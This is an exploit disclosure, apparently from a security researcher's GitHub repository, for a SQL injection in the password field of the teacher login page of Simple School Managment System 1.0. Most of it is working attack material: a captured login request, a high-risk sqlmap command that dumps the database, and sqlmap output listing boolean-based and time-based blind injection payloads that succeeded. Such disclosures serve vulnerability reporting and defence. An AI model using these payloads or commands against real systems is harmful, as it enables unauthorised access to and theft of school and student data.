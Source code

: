 # Simple School Managment System - SQL Injection - 7 (Teacher Login)
+ **Exploit Title:** Simple School Managment System - SQL Injection - 7 (Teacher Login)
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'pass' parameter at "http://localhost/School/teacher_login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/teacher_login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/teacher_login.php HTTP/1.1
Host: localhost
Content-Length: 28
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/teacher_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

name=selam&pass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'pass' parameter to dump the database.
```
sqlmap -r r.txt -p pass --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: pass (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: name=selam&pass=selam' OR NOT 3744=3744-- TMuD&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=selam&pass=selam' AND (SELECT 1577 FROM (SELECT(SLEEP(5)))Kgwa)-- yUXV&login=
---
[06:48:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[06:48:33] [INFO] fetching current database
[06:48:33] [INFO] resumed: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 145808](https://github.com/tubakvgc/CVEs/assets/74067343/282947d6-6327-4766-a7b9-c24c777bd5e2)
